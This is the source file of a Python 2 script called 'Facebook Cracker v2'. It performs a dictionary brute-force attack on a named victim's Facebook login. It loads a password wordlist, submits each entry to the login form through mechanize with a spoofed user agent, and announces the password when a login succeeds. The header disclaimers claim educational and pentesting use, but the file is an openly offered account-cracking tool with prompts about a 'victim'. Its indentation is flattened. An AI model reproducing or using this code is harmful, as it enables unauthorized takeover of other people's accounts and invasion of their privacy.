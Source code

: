 # fb.py
#!usr/bin/python
#Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By
Facebook Firewall !
#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal !
#If you want to crack into someone's account, you must have the permission of the user.
#InfosecHacker is not responsible.
import sys
import random
import mechanize
import cookielib
GHT = '''
+=========================================+
|..........Facebook Cracker v 2...........|
+-----------------------------------------+
|#Author: InfoSecHacker |
|#Contact: www.twitter.com/abhishekmani002|
|#Date: 23/10/2015 |
|#This tool is made for pentesting. |
|#Changing the Description of this tool |
|Won't made you the coder ^_^ !!! |
|#Respect Coderz ^_^ |
|#I take no responsibilities for the |
| use of this program ! |
+=========================================+
|..........Facebook Cracker v 2...........|
+-----------------------------------------+
'''
print "Note: - This tool can crack facebook account even if you don't have the email of your
victim"
print "# Hit CTRL+C to quit the program"
print "# Use www.graph.facebook.com for more infos about your victim ^_^"
email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : "))
passwordlist = str(raw_input("Enter the name of the password list file : "))
useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1)

Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]


login = 'https://www.facebook.com/login.php?login_attempt=1'
def attack(password):
try:
sys.stdout.write("\r[*] trying %s.. " % password)
sys.stdout.flush()
br.addheaders = [('User-agent', random.choice(useragents))]
site = br.open(login)
br.select_form(nr=0)
##Facebook
br.form['email'] =email
br.form['pass'] = password
br.submit()
log = br.geturl()
if log == login:
print "\n\n\n [*] Password found .. !!"
print "\n [*] Password : %s\n" % (password)
sys.exit(1)
except KeyboardInterrupt:
print "\n[*] Exiting program .. "
sys.exit(1)
def search():
global password
for password in passwords:
attack(password.replace("\n",""))
def check():
global br
global passwords
try:
br = mechanize.Browser()
cj = cookielib.LWPCookieJar()
br.set_handle_robots(False)

br.set_handle_equiv(True)
br.set_handle_referer(True)
br.set_handle_redirect(True)
br.set_cookiejar(cj)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
except KeyboardInterrupt:
print "\n[*] Exiting program ..\n"
sys.exit(1)
try:
list = open(passwordlist, "r")
passwords = list.readlines()
k = 0
while k < len(passwords):
passwords[k] = passwords[k].strip()
k += 1
except IOError:
print "\n [*] Error: check your password list path \n"
sys.exit(1)
except KeyboardInterrupt:
print "\n [*] Exiting program ..\n"
sys.exit(1)
try:
print GHT
print " [*] Account to crack : %s" % (email)
print " [*] Loaded :" , len(passwords), "passwords"
print " [*] Cracking, please wait ..."
except KeyboardInterrupt:
print "\n [*] Exiting program ..\n"
sys.exit(1)
try:
search()
attack(password)
except KeyboardInterrupt:
print "\n [*] Exiting program ..\n"
sys.exit(1)
if __name__ == '__main__':
    check()
